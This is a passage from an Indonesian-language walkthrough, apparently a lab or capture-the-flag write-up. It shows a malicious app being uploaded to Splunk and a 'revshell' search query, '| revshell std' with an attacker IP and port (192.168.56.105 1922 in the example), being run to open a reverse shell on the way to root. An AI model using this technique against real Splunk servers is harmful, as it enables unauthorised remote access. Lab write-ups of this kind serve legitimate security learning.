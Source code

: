 setelah itu klik `Choose File` maka kita akan mendapatkan halaman seperti berikut:

<img src="img/choose.png" alt="choose" width="600"/>

kemudian klik `Upload` maka kita akan muncul filenya di daftar Apps seperti berikut:

<img src="img/upload.png" alt="upload" width="600"/>

sekarang waktunya kita masuk ke Search & Reporting untuk menjalankan payload tersebut.

---

### Fourth Steps - Road to Root

1. Klik menu `Search & Reporting`
![search-report](img/searchreport.png)
2. Masukkan query berikut pada kolom search
```bash
| revshell std <ATTACKER IP> <ATTACKER PORT>
``` 
disini aku menggunaknan IP dan Port sebagai berikut

```bash
| revshell std 192.168.56.105 1922
```
